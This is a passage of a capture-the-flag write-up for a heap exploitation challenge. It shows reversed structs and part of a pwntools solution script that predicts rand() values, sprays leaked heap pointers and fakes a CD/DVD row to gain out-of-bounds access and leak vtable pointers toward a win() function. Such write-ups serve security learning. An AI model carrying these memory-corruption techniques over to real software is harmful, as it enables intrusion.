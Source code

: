 From the brochure stand, we are able to add, remove, swap and list brochures based on the `current` and `max` number of brochures defined in brochure buf. 
```c
struct brochure_stand_entry
{
  int in_use;
  _BYTE gap_4[4];
  __int64 vtable;
  brochure_buf *buf;
  _QWORD *next_ptr;
  _QWORD prev_ptr;
};

struct brochure_buf
{
  char header[32];
  int cur;
  int pad;
  int max;
  int pad2;
  char brochures[16][16];
};
```
As the brochure buf is within the userdata block, we can link it with the CD/DVD stand and manipulate the data from there. 

We can fake our CD/DVD row within the brochure buf `header` in order to manipulate the `current` and `max` values, which could in turn allow us to list and swap brochures at large indexes. Since the userdata block is allocated before the metadata block, if the brochure index is large enough, it is possible to swap the userdata values with values in the metadata block - which is our target as we will be able to leak function pointers from the vtable that can be used to calculate the address of our `win()` function.


### Solution script part 2
```py
predict_rand_arr = []
while True:
    predict_rand_arr.append(libc.rand() % 0x250)
    if len(predict_rand_arr) > len(set(predict_rand_arr)):
        break
dup_val = predict_rand_arr[-1]
for i in range(len(predict_rand_arr) - 1):
    if predict_rand_arr[i] == dup_val:
        val_idx = i
dup_idx = len(predict_rand_arr) - 1

for i in range(dup_idx):
    p.sendlineafter(b"choice: ", b"1")
    p.sendlineafter(b"characters): ", b"a"*15)
    p.sendlineafter(b"characters): ", b"aaaaaaaa"+p64(heap_leak+536)) # (heap_leak + 536) points to our brochure stand in the userdata block
    # it is also the fake cd/dvd row pointer 

p.sendlineafter(b"choice: ", b"4")
p.sendlineafter(b"option: ", b"1")
p.sendlineafter(b"option: ", b"5")


p.sendlineafter(b"choice: ", b"5")
p.sendlineafter(b"option: ", b"1")

# fake cd row in brochure stand header
p.sendlineafter(b"characters)\n", p32(50)+p32(0)+p32(50)) # contents of the cd/dvd row metadata, fake number of cd/dvds and max number of cd/dvds
```